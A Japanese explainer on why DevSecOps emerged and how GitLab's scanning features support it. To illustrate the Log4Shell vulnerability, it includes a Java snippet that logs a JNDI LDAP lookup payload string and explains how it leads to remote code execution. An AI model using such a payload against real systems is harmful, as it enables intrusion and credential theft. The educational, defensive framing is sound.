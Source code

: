# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見された。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用する。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立する。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

上記の脆弱性が潜在的に全てのライブラリに存在する可能性がある。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの工数が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり!!!
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
